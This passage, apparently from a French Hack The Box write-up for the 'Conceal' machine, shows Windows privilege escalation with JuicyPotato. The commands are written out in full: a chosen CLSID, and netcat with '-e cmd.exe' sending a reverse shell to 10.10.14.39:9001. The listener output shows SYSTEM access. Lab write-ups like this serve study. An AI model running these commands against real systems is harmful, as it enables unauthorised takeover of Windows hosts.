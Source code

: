 Nous devons choisir le CLSID approprié pour notre système d'exploitation. Nous allons d'abord vérifier quelle version de Windows est en cours d'exécution actuellement : 

	C:\inetpub\wwwroot\upload>systeminfo
	
	Host Name:                 CONCEAL
	OS Name:                   Microsoft Windows 10 Enterprise
	OS Version:                10.0.15063 N/A Build 15063
	
Ensuite, nous vérifions sur le site https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md la liste des CLSID pour le système d'exploitation. <br />

Nous allons utiliser {5BC7A3A1-E905-414B-9790-E511346F5CA6}, sans aucune raison particulière, puis exécuter JuicyPotato et exécuter un autre netcat pour générer un nouveau shell inversé pour nous.

	C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.39 9001" -t * -c {5BC7A3A1-E905-414B-9790-E511346F5CA6}
	[...SNIP...]
	[+] CreateProcessWithTokenW OK
	
Et ensuite on a juste à faire le reverse shell depuis notre machine physique pour être administrateur.

	root@Seyptoo:~/htb/box/Conceal# nc -lvnp 9001
	listening on [any] 9001 ...
	connect to [10.10.14.39] from (UNKNOWN) [10.10.10.116] 45135
	Microsoft Windows [Version 10.0.15063]
	(c) 2017 Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	nt authority\system

